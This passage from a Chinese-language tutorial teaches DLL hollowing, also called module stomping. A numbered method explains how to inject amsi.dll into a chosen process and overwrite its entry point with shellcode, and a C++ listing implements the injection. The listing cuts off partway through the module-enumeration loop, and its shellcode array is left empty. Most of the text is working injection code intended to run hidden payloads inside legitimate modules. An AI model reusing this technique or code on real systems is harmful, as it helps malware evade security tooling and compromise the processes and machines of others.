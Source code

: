 

## 代码实现思路

1. **确定要注入的目标进程：**根据进程ID打开目标进程，获取其句柄（示例代码中的进程ID固定为2924，实际应用中可能需要根据需求进行调整）。
2. **将合法的DLL（如amsi.dll）注入目标进程：**通过`VirtualAllocEx`和`WriteProcessMemory`将DLL名称写入远程进程的内存空间。然后，获取`LoadLibraryW`函数的地址，并在远程进程中创建一个新线程以调用该函数，实现DLL的加载。
3. **确定注入的DLL在目标进程中的基址：**使用`EnumProcessModules`函数遍历目标进程中加载的所有模块，找到已注入的合法DLL（如amsi.dll）的基址。
4. **获取DLL的入口点：**读取注入的DLL的PE头部信息，包括DOS头部和NT头部，从中获取DLL的入口点（AddressOfEntryPoint），并计算在目标进程中的实际地址。
5. **向DLL的入口点写入Shellcode：**使用`WriteProcessMemory`将Shellcode写入目标进程的DLL入口点。
6. **执行Shellcode：**在目标进程中创建一个新线程，以DLL的入口点作为线程的起始地址，从而在镂空的DLL内部执行Shellcode



## 完整代码

```cpp
#include <iostream>
#include <Windows.h>
#include <psapi.h>

// 将你的Shellcode放在这里
char shellcode[] = "";

int main(int argc, char* argv[])
{
    TCHAR ModuleName[] = L"C:\\windows\\system32\\amsi.dll"; //定义要注入的合法DLL的文件路径
    HMODULE hModules[256] = {};  //定义一个数组用于存储目标进程中加载的模块的句柄
    SIZE_T hModulesSize = sizeof(hModules); //计算存储模块句柄数组的大小
    DWORD hModulesSizeNeeded = 0;  //用于存储EnumProcessModules函数返回的实际需要的缓冲区大小

    DWORD moduleNameSize = 0;  //定义变量用于存储模块名称的大小（未使用）
    SIZE_T hModulesCount = 0;  //计算目标进程中模块的数量
    CHAR rModuleName[128] = {};  //定义一个字符数组用于存储远程模块的名称
    HMODULE rModule = NULL;  //定义一个变量用于存储找到的远程模块的句柄
    
    // 以可读写权限打开目标进程
    //hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 31652);

    // 在远程进程中分配内存并写入待注入DLL的路径
    LPVOID lprBuffer = VirtualAllocEx(hProcess, NULL, sizeof ModuleName, MEM_COMMIT, PAGE_READWRITE);
    WriteProcessMemory(hProcess, lprBuffer, (LPVOID)ModuleName, sizeof ModuleName, NULL);

    // 获取LoadLibraryW函数的地址，用于在远程进程中加载DLL
    PTHREAD_START_ROUTINE threadRoutine = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");

    // 创建远程线程以加载DLL
    HANDLE dllThread = CreateRemoteThread(hProcess, NULL, 0, threadRoutine, lprBuffer, 0, NULL);

    // 等待远程线程加载完DLL
    WaitForSingleObject(dllThread, 1000);

    // 找到在远程进程中注入的DLL的基地址
    EnumProcessModules(hProcess, hModules, hModulesSize, &hModulesSizeNeeded);
    hModulesCount = hModulesSizeNeeded / sizeof(HMODULE);
    for (size_t i = 0; i < hModulesCount; i++)
    {
        rModule = hModules[i];
        GetModuleBaseNameA(hProcess, rModule, rModuleName, sizeof(rModuleName));
        if (std::string(rModuleName).compare("amsi.dll") == 0)
        {
            break;
```